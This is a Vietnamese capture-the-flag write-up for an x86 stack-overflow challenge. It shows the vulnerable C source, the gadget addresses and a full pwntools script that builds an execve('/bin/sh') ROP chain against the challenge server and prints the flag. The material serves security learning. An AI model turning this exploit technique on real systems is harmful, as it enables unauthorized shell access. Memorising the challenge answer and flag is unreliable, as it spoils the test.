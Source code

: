 ## ROPchain - x86 - ROP chains: nc 45.122.249.68 10002

Đầu tiên ta có source code của file thực thi như sau:
```C
#include <stdio.h>

char shell[] = "/bin/sh";
void SetBuf(){
	setvbuf(stdout,0,_IONBF,0);
	setvbuf(stdin,0,_IONBF,0);
	setvbuf(stderr,0,_IONBF,0);
}
void Vuln(){
	char buf[128];
        puts("Insert ROP chain here:");
        read (0, &buf,0x100);
}
int main(){
	SetBuf();
	puts("Wanna.One");
	puts("Muon gioi phai lam viec kho");
	Vuln();
	return 0;
}
```
Ta thấy biến buf có 128 byte và stack frame thì cần 12 byte nữa để tới return address, vì vậy payload của ta sẽ có dạng:
```
"A" * 140 + [chuỗi ROP]
```

Để gọi và thực thi system("/bin/sh") ta cần thực hiện tìm các chain có kiểu:
```assembly
pop eax;
ret;
```
![image](https://user-images.githubusercontent.com/64201705/140645478-f0d9d4c1-051a-46e0-bfa0-2e64b07ccc02.png)

câu lệnh này nằm ở địa chỉ 
```python
0x080a89e6 : pop eax ; ret
```

tiếp tục ta tìm kiếm chuỗi pop edx, ecx, ebx và ret:
câu lệnh này nằm ở địa chỉ
```python
0x0806e051 : pop edx ; pop ecx ; pop ebx ; ret
```

tiếp theo ta sẽ tìm hai câu lệnh để gọi systemcall là int 0x80 và /bin/sh

![image](https://user-images.githubusercontent.com/64201705/140645491-83e9d068-c274-4984-a434-384bd76dd6ec.png)

Hai câu lệnh này lần lượt nằm tại các địa chỉ:
```python
0x080d9068 : /bin/sh
0x080495a3 : int 0x80
```

Như vậy ta đã đủ số lượng câu lệnh để thực hiện gọi shell:
Thực hiện code python:
```python
from pwn import *

p = remote('45.122.249.68',10002)

pop_eax_ret = 0x080a89e6
pop_edx_ecx_ebx_ret = 0x0806e051
int_0x80 = 0x080495a3
binsh = 0x080d9068
payload = "A"*140
payload += p32(pop_eax_ret)
payload += p32(0xb)
payload += p32(pop_edx_ecx_ebx_ret)
payload += p32(0)
payload += p32(0)
payload += p32(binsh)
payload += p32(int_0x80)
p.sendline(payload)
p.interactive()
```

```bash
python2 test.py
```

Ta được:
![image](https://user-images.githubusercontent.com/64201705/140645509-b4c60a4e-569b-4ce7-8439-6879b56e9e82.png)

Như vậy flag là:
```
flag{dung_thay_hoa_no_ma_ngo_xuan_ve}
```
